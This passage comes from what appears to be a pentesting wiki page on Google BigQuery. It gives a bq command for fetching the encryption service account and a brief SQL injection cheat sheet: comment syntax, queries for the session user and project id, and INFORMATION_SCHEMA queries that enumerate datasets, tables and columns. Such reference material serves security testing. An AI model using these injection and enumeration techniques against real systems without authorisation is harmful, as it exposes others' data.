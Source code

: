 ```bash

# Misc
bq show --encryption_service_account # Get encryption service account
```
{% endcode %}

### BigQuery SQL Injection

For further information you can check the blog post: [https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac). Here just some details are going to be given.

**Comments**:

* `select 1#from here it is not working`
* `select 1/*between those it is not working*/` But just the initial one won't work
* `select 1--from here it is not working`

Get **information** about the **environment** such as:

* Current user: `select session_user()`
* Project id: `select @@project_id`

Concat rows:

* All table names: `string_agg(table_name, ', ')`

Get **datasets**, **tables** and **column** names:

* **Project** and **dataset** name:

{% code overflow="wrap" %}
```sql
SELECT catalog_name, schema_name FROM INFORMATION_SCHEMA.SCHEMATA
```
{% endcode %}

* **Column** and **table** names of **all the tables** of the dataset: &#x20;

{% code overflow="wrap" %}
```sql
# SELECT table_name, column_name FROM <proj-name>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS

SELECT table_name, column_name FROM <project-id>.<dataset-name>.INFORMATION_SCHEMA.COLUMNS
```
{% endcode %}

* **Other datasets** in the same project:&#x20;

{% code overflow="wrap" %}
```sql
# SELECT catalog_name, schema_name, FROM <proj-name>.INFORMATION_SCHEMA.SCHEMATA

SELECT catalog_name, schema_name, NULL FROM <project-id>.INFORMATION_SCHEMA.SCHEMATA
```
{% endcode %}

**SQL Injection types:**
